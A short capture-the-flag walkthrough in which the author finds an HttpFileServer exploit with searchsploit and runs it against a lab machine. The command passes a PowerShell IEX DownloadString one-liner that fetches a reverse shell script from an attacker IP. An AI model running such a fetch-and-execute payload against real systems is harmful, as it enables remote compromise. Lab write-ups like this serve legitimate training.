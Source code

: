 i noticed there was an http sevrer running i checked for vuln using searchsploit

┌──(root💀kali)-[~/Desktop/THM]
└─# searchsploit HttpFileServer


i found one cve and used that script to get a foothold on the system

──(root💀kali)-[~/Desktop/THM]
└─# python3 49125.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.32/reverse.ps1')"


and i got the user flag


